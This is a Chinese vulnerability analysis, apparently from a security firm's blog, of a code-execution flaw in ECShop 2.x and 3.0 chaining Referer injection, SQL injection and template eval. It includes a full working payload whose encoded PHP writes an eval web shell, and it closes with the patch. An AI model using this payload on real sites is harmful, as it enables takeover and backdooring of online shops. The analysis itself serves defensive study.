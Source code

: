 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[blog.riskivy.com\](https://blog.riskivy.com/ecshop-2-x-3-0%e4%bb%a3%e7%a0%81%e6%89%a7%e8%a1%8c%e6%bc%8f%e6%b4%9e%e5%88%86%e6%9e%90/)

0x00 前言
-------

ECShop 是一款 B2C 独立网店系统，适合企业及个人快速构建个性化网上商店。2.x 版本跟 3.0 版本存在代码执行漏洞。

0x01 漏洞原理
---------

ECShop 没有对 $GLOBAL\[‘\_SERVER’\]\[‘HTTP\_REFERER’\] 变量进行验证，导致用户可以将任意代码插入的 user\_passport.dwt 模板中，随后 insert\_mod 根据模板内容动态执行相应的函数，用户插入恶意代码导致模板动态执行了 lib\_insert 下的 insert\_ads 方法，通过 SQL 注入，返回构造的执行代码，致使后面调用 cls\_template 模板类的 fetch 函数，成功执行恶意代码。

0x02 环境搭建
---------

**IDE** : PHPStorm  
**PHP**: 5.4  
[ECshop3.0](https://github.com/ec-shop/ecshop3.0.0906)  
[ECShop 2.7.3](https://github.com/shopex/ecshop)

0x03 分析过程
---------

### 整体功能

首先过一下整体的功能，进入到 user.php 中。  
[![](https://blog.riskivy.com/wp-content/uploads/2018/09/%E5%9B%BE%E7%89%87-1.png)](https://blog.riskivy.com/wp-content/uploads/2018/09/%E5%9B%BE%E7%89%87-1.png)  
正常情况下，程序会将 $GLOBALS\[‘\_SERVER’\]\[‘HTTP\_REFERER’\] 赋值给了 $back\_act，接着通过 cls\_template 模板类的 assign 和 display 进行赋值和和传值给了 user\_passport.dwt 页面模板；这时候 user\_passport.dwt 页面模板的内容是这样子的。  
[![](https://blog.riskivy.com/wp-content/uploads/2018/09/%E5%9B%BE%E7%89%87-2.png)](https://blog.riskivy.com/wp-content/uploads/2018/09/%E5%9B%BE%E7%89%87-2.png)

进入到 $smarty->display 中，通过 inser\_mod 的分割和反序列之后动态调用函数获得购物信息和会员信息，将会默认执行 user\_passport.dw 上面的两个函数，即 lib\_insert 函数类下的 insert\_cart\_info 和 insert\_member\_info 函数。

```
insert\_cart\_info函数//调用购物信息
insert\_member\_info函数 //调用会员信息


```

user\_passport.dw 模板:  
[![](https://blog.riskivy.com/wp-content/uploads/2018/09/%E5%9B%BE%E7%89%87-3.png)](https://blog.riskivy.com/wp-content/uploads/2018/09/%E5%9B%BE%E7%89%87-3.png)  
inser\_mod 函数:  
[![](https://blog.riskivy.com/wp-content/uploads/2018/09/%E5%9B%BE%E7%89%87-4.png)](https://blog.riskivy.com/wp-content/uploads/2018/09/%E5%9B%BE%E7%89%87-4.png)

### Payload

```
45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:280:"\*/ union select 1,0x272f2a,3,4,5,6,7,8,0x7B24617364275D3B617373657274286261736536345F6465636F646528275A6D6C735A56397764585266593239756447567564484D6F4A7A4975634768774A79776E50443977614841675A585A686243676B58314250553152624D5445784D5630704F79412F506963702729293B2F2F7D787878,10-- -";s:2:"id";s:3:"'/\*";}


```

### 开始分析

在 user.php 中的通过执行登陆操作的时候，将 $GLOBALS\[‘\_SERVER’\]\[‘HTTP\_REFERER’\] 的值修改为我们的代码  
[![](https://blog.riskivy.com/wp-content/uploads/2018/09/%E5%9B%BE%E7%89%87-5.png)](https://blog.riskivy.com/wp-content/uploads/2018/09/%E5%9B%BE%E7%89%87-5.png)  
这时候 $back\_act 的值就是我们篡改之后的 REFERER 值了，之后程序会继续执行：

```
$smarty->assign('back\_act', $back\_act);  //赋值
$smarty->display('user\_passport.dwt'); //传值到模板上 


```

经过 assign，display 的赋值和传值之后，这时候 user\_passport.dwt 模板上的 back\_act 值是这样的：  
[![](https://blog.riskivy.com/wp-content/uploads/2018/09/%E5%9B%BE%E7%89%87-6.png)](https://blog.riskivy.com/wp-content/uploads/2018/09/%E5%9B%BE%E7%89%87-6.png)  
在观察堆栈参数的时候，可以观察到 this->\_echash 的值跟我们的 Payload 的值是一样的，这是 ECSHOP 的固定的 HASH 值，2.7 版本的\_echash 值为 554fcae493e564ee0dc75bdf2ebf94ca 而 3.x 版本的\_echash 值为 45ea207d7a2b68c49582d2d22adf953，所以所用的 Payload 也不一样。  
[![](https://blog.riskivy.com/wp-content/uploads/2018/09/%E5%9B%BE%E7%89%87-7.png)](https://blog.riskivy.com/wp-content/uploads/2018/09/%E5%9B%BE%E7%89%87-7.png)  
进入到 display 函数中，会执行 fetch 函数，获得页面模板内容；

```
$out = $this->fetch($filename, $cache\_id); //根据$cache\_id获取模板内容也就是user\_passport.dwt的内容


```

接着按照\_echash 的值也就是固定 hash 值进行分割；  
[![](https://blog.riskivy.com/wp-content/uploads/2018/09/%E5%9B%BE%E7%89%87-8.png)](https://blog.riskivy.com/wp-content/uploads/2018/09/%E5%9B%BE%E7%89%87-8.png)  
分割完之后程序会先执行两个默认函数，然后才执行我们的代码，继续执行 insert\_mod 函数 。

```
$k\[$key\] = $this->insert\_mod($val);


```

跟进，可以看到我们输入的字符串根据`|`进行了分割，并分别赋值给了`$fun`和`$para`  
[![](https://blog.riskivy.com/wp-content/uploads/2018/09/%E5%9B%BE%E7%89%87-9.png)](https://blog.riskivy.com/wp-content/uploads/2018/09/%E5%9B%BE%E7%89%87-9.png)  
所以最后的到的值类似于`$fun = insert_ads $para = array(‘num’=>”*/union…”,’id’=>”*/”)`  
[![](https://blog.riskivy.com/wp-content/uploads/2018/09/%E5%9B%BE%E7%89%87-10.png)](https://blog.riskivy.com/wp-content/uploads/2018/09/%E5%9B%BE%E7%89%87-10.png)  
到了`return $fun($para);`这里，将会执行 lib\_insert 动态函数类下的 `insert_ads($para)`函数。  
跟进，可以看到这里执行了 SQL 语句，而`$arr[‘id’]`和`$arr[‘num’]`这两个参数正是我们传进来的数组中的内容，参数可控，从而导致了注入。  
[![](https://blog.riskivy.com/wp-content/uploads/2018/09/%E5%9B%BE%E7%89%87-17.png)](https://blog.riskivy.com/wp-content/uploads/2018/09/%E5%9B%BE%E7%89%87-17.png)  
这时候在数据库中，执行的语句为：

```
SELECT a.ad\_id, a.position\_id, a.media\_type, a.ad\_link, a.ad\_code, a.ad\_name, p.ad\_width, p.ad\_height, p.position\_style, RAND() AS rnd FROM \`ecshop3\_0\`.\`ecs\_ad\` AS a LEFT JOIN \`ecshop3\_0\`.\`ecs\_ad\_position\` AS p ON a.position\_id = p.position\_id WHERE enabled = 1 AND start\_time <= '1536052713' AND end\_time >= '1536052713' AND a.position\_id = ''/\*' ORDER BY rnd LIMIT \*/ union select 1,0x272f2a,3,4,5,6,7,8,0x,0x272f2a,3,4,5,6,7,8,0x7B24617364275D3B617373657274286261736536345F6465636F646528275A6D6C735A56397764585266593239756447567564484D6F4A7A4975634768774A79776E50443977614841675A585A686243676B58314250553152624D5445784D5630704F79412F506963702729293B2F2F7D787878,10-- -


```

[![](https://blog.riskivy.com/wp-content/uploads/2018/09/%E5%9B%BE%E7%89%87-11.png)](https://blog.riskivy.com/wp-content/uploads/2018/09/%E5%9B%BE%E7%89%87-11.png)

可以看到数据库的 position\_id 和 position\_style 字段分别被 union select 查询覆盖为了`'/*`和`{$asd'];assert(base64_decode('ZmlsZV9wdXRfY29udGVudHMoJzIucGhwJywnPD9waHAgZXZhbCgkX1BPU1RbMTExMV0pOyA/Picp'));//}xxx`  
[![](https://blog.riskivy.com/wp-content/uploads/2018/09/%E5%9B%BE%E7%89%87-12.png)](https://blog.riskivy.com/wp-content/uploads/2018/09/%E5%9B%BE%E7%89%87-12.png)  
查询结束之后, 根据 $position\_style 的值执行了 cls\_template 模板类的 fetch 函数。

```
$val = $GLOBALS\[‘smarty’\]->fetch($position\_style); //执行了smarty的fetch函数


```

跟进，看到这里，这里最终执行了恶意代码。

```
$out = $this->\_eval($this->fetch\_str(substr($filename, 4))); //最终执行了语句


```

看一下内部的字符串处理，传入 filename 的值为：

```
” str:{$asd’\];assert(base64\_decode(‘ZmlsZV9wdXRfY29udGVudHMoJzEucGhwJywnPD9waHAgZXZhbCgkX1BPU1RbMTMzN10pOyA/Picp’));//}xxx”


```

然后使用 substr 对 filenname 进行切割，接着进入到 $this->fetch\_str 中，可以看到 fetch\_str 函数的返回内容为`<?php echo xx>`格式的。  
[![](https://blog.riskivy.com/wp-content/uploads/2018/09/%E5%9B%BE%E7%89%87-13.png)](https://blog.riskivy.com/wp-content/uploads/2018/09/%E5%9B%BE%E7%89%87-13.png)  
在跟入到 $this->get\_val 中，执行了`$p = $this->make_var($val);`，跟入到 make\_var 函数中。  
[![](https://blog.riskivy.com/wp-content/uploads/2018/09/%E5%9B%BE%E7%89%87-14.png)](https://blog.riskivy.com/wp-content/uploads/2018/09/%E5%9B%BE%E7%89%87-14.png)  
字符串处理最后返回的值为：

```
$this->\_var\['asd'\];assert(base64\_decode('ZmlsZV9wdXRfY29udGVudHMoJzIucGhwJywnPD9waHAgZXZhbCgkX1BPU1RbMTExMV0pOyA/Picp'));//'\] 


```

拼接在一起，最后返回的数据为：

```
<?php echo $this->\_var\['asd'\];assert(base64\_decode('ZmlsZV9wdXRfY29udGVudHMoJzIucGhwJywnPD9waHAgZXZhbCgkX1BPU1RbMTExMV0pOyA/Picp'));//>


```

从而最终导致了代码执行。  
[![](https://blog.riskivy.com/wp-content/uploads/2018/09/%E5%9B%BE%E7%89%87-15.png)](https://blog.riskivy.com/wp-content/uploads/2018/09/%E5%9B%BE%E7%89%87-15.png)

0x04 代码执行的调用链
-------------

[![](https://blog.riskivy.com/wp-content/uploads/2018/09/%E5%9B%BE%E7%89%87-16.png)](https://blog.riskivy.com/wp-content/uploads/2018/09/%E5%9B%BE%E7%89%87-16.png)

0x05 修复方案
---------

在 ECShop3.6 版本中 insert\_ads 函数对 $arr\[‘num’\] 和 $arr\[‘id’\] 进行了强制类型转换。

```
$arr\[‘num’\] = intval($arr\[‘num’\]);
$arr\['id'\] = intval($arr\['id'\]);


```

作者：斗象能力中心 TCC-t-bag